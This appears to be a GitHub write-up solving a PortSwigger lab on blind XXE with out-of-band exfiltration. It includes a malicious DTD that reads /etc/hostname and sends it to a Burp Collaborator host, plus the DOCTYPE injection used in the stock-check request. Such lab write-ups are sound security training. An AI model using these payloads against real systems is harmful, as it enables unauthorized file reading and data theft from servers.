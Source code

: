 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/37393827-6c23-4d95-b98b-401a11b8e7b5)

## Solution :

### Create a malicious DTD -
On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
%eval;
%exfil;
```
Host this malicious.dtd file in our exploit server.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/19996b6e-471b-42dc-80ee-f8385d7e002b)

Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/df7f8e6c-1372-4921-9e16-296ed632cd34)

You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/db33769a-1132-4b4e-8e2f-983cdf7dfabf)

Insert the following external entity definition in between the XML declaration and the stockCheck element:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d80c535c-c4f6-4d5d-b63b-8e32f1f4e292)


Go back to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/de8fdc48-d07d-43ba-8843-c0746ccd1974)


You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload. The HTTP interaction could contain the contents of the /etc/hostname file.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4c8c572c-4546-49fa-87b9-7c9475b19c43)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/728b70eb-99f3-4739-b210-6174fd9bd2a6)


